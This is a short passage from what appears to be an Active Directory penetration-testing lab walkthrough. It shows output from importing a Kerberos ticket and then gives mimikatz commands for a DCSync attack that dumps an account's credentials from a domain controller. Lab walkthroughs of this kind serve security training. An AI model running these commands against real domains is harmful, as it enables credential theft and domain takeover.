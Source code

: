 ```bash
[*] EndTime        : 3/29/2022 8:06:41 PM
[*] RenewTill      : 4/5/2022 10:06:41 AM

[*] base64(ticket.kirbi):
      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQc0u5onpWKAP0Hw0KJuEOAFp8OgfBXlkwH3sXu5BhH
      T3zO/Ykw2Hkq2wsoODrBj0VfvxDNNpvysToaQdjHIqIqVQ9kXfNHM7bsQezS7L1KSx++2iX94uRrwa/S
<--SNIP-->

[+] Ticket successfully imported!
```

Confirm with `klist`.

We can then perform a DCSync attack:

```bash
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

or:

```
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

